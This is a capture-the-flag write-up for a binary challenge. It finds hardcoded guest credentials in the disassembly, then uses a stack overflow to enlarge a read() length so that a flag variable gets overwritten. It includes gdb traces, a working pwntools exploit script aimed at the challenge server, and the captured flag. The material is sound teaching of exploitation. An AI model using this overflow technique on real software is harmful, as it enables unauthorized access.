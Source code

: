 ### Solved by superkojiman

The program asks for username and password. If we check the disassembly we see that the guest username is "charly" and the guest password is "h4ckTH1s". After it does a strncmp() on the credentials it checks if a certain variable is 1. If it is, we get the flag:

```
   0x00000000004008eb <+334>:   call   0x400600 <strncmp@plt>
   0x00000000004008f0 <+339>:   test   eax,eax
   0x00000000004008f2 <+341>:   jne    0x400945 <main+424>
   0x00000000004008f4 <+343>:   lea    rax,[rbp-0xd0]
   0x00000000004008fb <+350>:   add    rax,0x18
   0x00000000004008ff <+354>:   mov    edx,0x8
   0x0000000000400904 <+359>:   mov    esi,0x400a2a
   0x0000000000400909 <+364>:   mov    rdi,rax
   0x000000000040090c <+367>:   call   0x400600 <strncmp@plt>
   0x0000000000400911 <+372>:   test   eax,eax
   0x0000000000400913 <+374>:   jne    0x400945 <main+424>
   0x0000000000400915 <+376>:   mov    edi,0x400a33
   0x000000000040091a <+381>:   call   0x400610 <puts@plt>
   0x000000000040091f <+386>:   mov    eax,DWORD PTR [rbp-0xa8]
   0x0000000000400925 <+392>:   cmp    eax,0x1
```

So basically we need to set $rbp-0xa8 to 1. The program uses read() to get the username and password. In both calls to read(), read()'s 3rd parameter size_t count is a variable on the stack, which means we can overwrite it. If we set username to "A"*17, then the second call to read looks like this:

```
=> 0x4008ce <main+305>: call   0x400650 <read@plt>
   0x4008d3 <main+310>: lea    rax,[rbp-0xd0]
   0x4008da <main+317>: add    rax,0x4
   0x4008de <main+321>: mov    edx,0x6
   0x4008e3 <main+326>: mov    esi,0x400a23
Guessed arguments:
arg[0]: 0x0 
arg[1]: 0x7fff3c4b3e38 --> 0x0 
arg[2]: 0x41 ('A')
arg[3]: 0x7fff3c4b3e38 --> 0x0 
```

We've overwritten count to 0x41. Where's the variable we want to set to 1?

```
gdb-peda$ p/x $rbp-0xa8
$8 = 0x7fff3c4b3e48
```

That's only 16 bytes away and we can write 65 bytes. So all we need to do is set the password to "h4ckTH1sBBBBBBBB\x01" to overwrite it. Since the credentials check uses strncmp("charly", buf, 6) and strncmp("h4ckTH1s",  buf, 8), it will ignore the excess padding of "A"s and "B"s in the username and password so it will still match. 

Exploit:

```python
#!/usr/bin/env python
from pwn import *

r = remote("challs.ctf.site", 20000)

buf1 = ""
buf1 += "charly"
buf1 += "A"*(17 - len(buf1))

print r.recv()
r.send(buf1)

buf2 = ""
buf2 += "h4ckTH1s"
buf2 += "B"*(16 - len(buf2))
buf2 += p64(0x1)

print r.recv()
r.send(buf2)

print r.recv()
```

In action: 

```
# ./sploit.py 
[+] Opening connection to challs.ctf.site on port 20000: Done
User : 
Password : 
Welcome guest!
Your flag is : EKO{Back_to_r00000ooooo00000tS}
```

Win!
